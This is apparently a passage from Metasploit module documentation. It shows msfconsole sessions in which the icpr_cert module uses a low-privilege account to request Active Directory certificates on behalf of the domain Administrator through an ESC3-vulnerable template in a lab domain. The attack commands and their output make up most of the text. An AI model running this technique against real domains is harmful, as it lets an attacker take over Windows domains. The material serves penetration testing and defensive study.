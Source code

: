 ```msf
Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Just to show this is also possible with `ESC3-Template2` here is a snippet showing that also works:

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template2
CERT_TEMPLATE => ESC3-Template2
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template2                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate

```